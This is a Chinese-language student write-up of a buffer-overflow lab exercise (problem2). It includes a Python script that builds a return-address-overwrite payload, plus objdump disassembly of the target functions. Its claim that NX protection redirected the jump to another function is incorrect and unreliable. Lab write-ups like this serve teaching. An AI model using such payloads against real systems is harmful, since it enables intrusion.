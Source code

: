 ​	第一步还是一样的，进行反汇编以得到汇编代码：

```bash
objdump -d problem2 > problem2.s
```

​	打眼一看，这不跟`problem1`很像吗，就相当于还是要运用栈溢出把缓冲区覆盖掉。因此，我写了和`problem1`一样的代码（因为`func`也是8字节）：

```python
padding = b'A'* 16  # 填充数据的大小，应确保覆盖栈上的数据直到返回地址
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding + func1_address  # 拼接填充数据和 func1 的地址

# 写入 payload 到文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")
```

​	运行结果为

![p2](p2.png)

​	我在`gdb`中查看了一下，发现`Welcome to the second level!`实际上是地址0x40204c上的内容，也就是`fucc`函数中的输出。

```asm
000000000040126a <fucc>:
  40126a:	f3 0f 1e fa          	endbr64 
  40126e:	55                   	push   %rbp
  40126f:	48 89 e5             	mov    %rsp,%rbp
  401272:	48 83 ec 10          	sub    $0x10,%rsp
  401276:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401279:	48 8d 05 cc 0d 00 00 	lea    0xdcc(%rip),%rax        # 40204c <_IO_stdin_used+0x4c>
  401280:	48 89 c7             	mov    %rax,%rdi
  401283:	b8 00 00 00 00       	mov    $0x0,%eax
  401288:	e8 43 fe ff ff       	call   4010d0 <_init+0xd0>
  40128d:	90                   	nop
  40128e:	c9                   	leave  
  40128f:	c3                   	ret    
```

​	这就很神奇了。为什么我跳转到的是地址`0x401216`，结果却运行了`0x40126a`上的内容？

​	又回去看了一下题目，哦第二题开了NX保护。NX保护会阻止栈上的数据（如返回地址、填充数据等）被执行，即使你通过缓冲区溢出覆盖了返回地址并将其指向一个函数的地址，这样的函数地址也无法在栈上被直接执行。虽然我覆盖了返回地址并尝试跳转到 `func2`，但由于NX保护机制的存在，栈上的代码无法被执行。因此，操作系统会禁止执行 `func2` 的代码，导致跳转实际上发生在 `fucc` 函数。

```asm
0000000000401216 <func2>:
  401216:	f3 0f 1e fa          	endbr64 
  40121a:	55                   	push   %rbp
  40121b:	48 89 e5             	mov    %rsp,%rbp
  40121e:	48 83 ec 10          	sub    $0x10,%rsp
  401222:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
  40122c:	74 1e                	je     40124c <func2+0x36>
  40122e:	48 8d 05 d3 0d 00 00 	lea    0xdd3(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  401235:	48 89 c7             	mov    %rax,%rdi
  401238:	b8 00 00 00 00       	mov    $0x0,%eax
  40123d:	e8 8e fe ff ff       	call   4010d0 <_init+0xd0>
  401242:	bf 00 00 00 00       	mov    $0x0,%edi
  401247:	e8 d4 fe ff ff       	call   401120 <_init+0x120>
  40124c:	48 8d 05 e8 0d 00 00 	lea    0xde8(%rip),%rax        # 40203b <_IO_stdin_used+0x3b>
  401253:	48 89 c7             	mov    %rax,%rdi
  401256:	b8 00 00 00 00       	mov    $0x0,%eax
```